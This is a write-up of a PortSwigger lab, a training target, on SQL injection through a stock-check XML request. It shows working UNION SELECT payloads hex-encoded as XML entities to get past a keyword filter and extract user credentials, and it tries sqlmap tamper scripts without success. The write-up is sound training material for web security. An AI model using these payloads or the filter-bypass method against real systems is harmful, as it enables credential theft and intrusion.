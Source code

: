 ```yaml
---
Challenge Name: SQL injection with Filter Bypass via XML Encoding
Category: SQL Injection
Difficulty: Practitioner
Link: https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding
---
```

[![VIDEO WALKTHROUGH](https://img.youtube.com/vi/2iqMm0gMyHk/0.jpg)](https://youtu.be/2iqMm0gMyHk "SQL injection with Filter Bypass via XML Encoding")

## Background
You can perform SQL injection attacks using any controllable input that is processed as a SQL query, e.g. some websites take input in JSON/XML format and use this to query the database.

Different formats may even provide alternative ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms.

Weak implementations often just look for common SQL injection keywords within the request and may be bypassed by simply encoding or escaping characters in the prohibited keywords.

The following example uses an XML escape sequence to encode the `S` character in `SELECT`:
```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```
This will be decoded server-side before being passed to the SQL interpreter.

## Challenge Description
>This [lab](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding) contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

>The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Solution
Modify the POST request to include a `'` and we get an error "Attack detected".
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1'</productId>
	<storeId>1</storeId>
</stockCheck>
```

Similarly, when we input a keyword like `SELECT` or `UNION` we get "Attack detected".
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 UNION</productId>
	<storeId>1</storeId>
</stockCheck>
```

When we try `&#x53;ELECT` there is no error.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 &#x53;ELECT</productId>
	<storeId>1</storeId>
</stockCheck>
```

So we encode `UNION SELECT username FROM users` using the CyberChef encoder.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</productId>
	<storeId>1</storeId>
</stockCheck>
```

Unfortunately, this returns `0` but if we move the payload to the `<storeId>`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
</stockCheck>
```

The request returns a list of users.
```txt
carlos
administrator
382 units
wiener
```

Switch the parameter to password, e.g. `UNION SELECT password FROM users`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;</storeId>
</stockCheck>
```

This is fine but good practice (imagine we have thousands of users) to use `WHERE` clause to filter by username, e.g. `UNION SELECT password FROM users WHERE username = 'administrator'`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x57;&#x48;&#x45;&#x52;&#x45;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x3d;&#x20;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;</storeId>
</stockCheck>
```

Recover credentials so now we can login with `administrator:<REDACTED>`.

### Bonus - SQLMap Tamper Scripts
Now for the SQLMap approach. First, list the `-h` and `-hh` then show how we can list the potential `tamper` scripts with `sqlmap --list-tampers`:
```txt
* decentities.py - HTML encode in decimal (using code points) all characters (e.g. ' -> &#39;)
* hexentities.py - HTML encode in hexadecimal (using code points) all characters (e.g. ' -> &#x31;)
* htmlencode.py - HTML encode (using code points) all non-alphanumeric characters (e.g. ' -> &#39;)
```

Unfortunately, none of these worked - was expecting `hexentities.py` to work for sure. Increase verbosity to identify the issues.
```bash
sqlmap -r new.req --batch --tamper=hexentities -v 6
```

See the ouput `"This lab is not accessible over HTTP"` so we need HTTPS.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl
```

Still not working, might be better to debug by proxying through burp.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl --proxy=http://127.0.0.1:8080
```

OK, so payload looks like.
```
&amp;#x31;&amp;#x20;&amp;#x4f;&amp;#x52;&amp;#x44;&amp;#x45;&amp;#x52;&amp;#x20;&amp;#x42;&amp;#x59;&amp;#x20;&amp;#x39;&amp;#x37;&amp;#x32;&amp;#x32;&amp;#x2d;&amp;#x2d;&amp;#x20;&amp;#x49;&amp;#x76;&amp;#x53;&amp;#x42;
```

But we don't want the `&amp;` - checked `-hh` and found  `--skip-urlencode`.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl --proxy=http://127.0.0.1:8080 --skip-urlencode
```

This doesn't work and either does `--no-escape` - I tried to manually adjust the SQLMap code in both `convert.py` and `hexentities.py` but actually the payload looks ok when checking verbose mode.
```txt
[PAYLOAD] &#x35;&#x36;&#x32;&#x30;
```
It's only in the actual HTTP request POST data where we see.
```txt
&amp;#x35;&amp;#x36;&amp;#x32;&amp;#x30;
```

I didn't find a working solution for SQLMap, if you know how to prevent the encoding of `&amp;` leave a message on the [YT video](https://www.youtube.com/watch?v=2iqMm0gMyHk) or DM me on [Twitter](https://twitter.com/_CryptoCat) 🙂

## Resources
- [CyberChef: Convert ASCII chars to HTML entities](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(true,'Hex%20entities')&input=VEVTVA)
- [Intigriti SQLi thread](https://twitter.com/intigriti/status/1612444237106126850)